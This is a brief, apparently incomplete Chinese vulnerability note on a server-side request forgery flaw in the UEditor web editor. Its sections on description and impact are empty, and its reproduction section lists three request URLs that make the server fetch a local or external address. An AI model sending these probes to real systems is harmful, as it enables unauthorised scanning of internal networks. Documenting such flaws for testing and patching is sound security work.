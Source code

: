 ueditor ssrf
============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

存在漏洞路径：

    /ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

    /ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

    /ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

    存在就会抓取成功、也可以抓取外网的测
